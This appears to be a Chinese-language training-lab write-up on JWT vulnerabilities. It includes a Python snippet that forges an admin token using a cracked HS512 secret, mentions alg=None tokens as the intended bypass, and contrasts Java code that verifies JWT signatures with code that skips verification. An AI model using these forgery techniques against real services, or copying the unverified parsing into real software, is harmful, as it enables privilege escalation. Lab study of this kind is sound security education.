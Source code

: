 ```python
    if 'exp' in payload and datetime.datetime.utcnow() > datetime.datetime.fromtimestamp(payload['exp']):  
        raise ValueError("Token has expired")  
  
    return payload

payload = {"iat": int(datetime.datetime.now(datetime.timezone.utc).timestamp()) + 824770 , "admin": "true", "user": "Jerry"}
secret_key = "victory"
head512 = {"alg": "HS512"}
token = generate_token(secret_key, head512, payload)  
print(token)

```


再生成一段算法为None的看看，也是可以的
（其实这个才是这道题的标准题解）
![](../images/Pasted%20image%2020241204191606.png)

### 2.4 问答

### 绕过BUG 看不到问答题(2)

这个问答题在旧版本没有
只好自己找题了

![](../images/Pasted%20image%2020241204194832.png)

构造一下包的内容

样例：
```
question_0_solution=Solution+2%3A+Invoked+the+method+removeAllUsers+at+line+7&
question_1_solution=Solution+1%3A+Throws+an+exception+in+line+12
```

三个选项：
```
Solution+1%3A+Throws+an+exception+in+line+12
Solution+2%3A+Invoked+the+method+removeAllUsers+at+line+7
Solution+3%3A+Logs+an+error+in+line+9
```


![](../images/Pasted%20image%2020241204195557.png)
看起来没问题，还可以马上发包看一下结果

经过测试这个是有变化的！很好
![](../images/Pasted%20image%2020241204200428.png)
![](../images/Pasted%20image%2020241204200615.png)

可以做题了
根据题目两个代码块的区别是
`Jwt jwt = Jwts.parser().setSigningKey(JWT_PASSWORD).parseClaimsJws(accessToken);`
1会验证签名
`Jwt jwt = Jwts.parser().setSigningKey(JWT_PASSWORD).parse(accessToken);`
2不验证
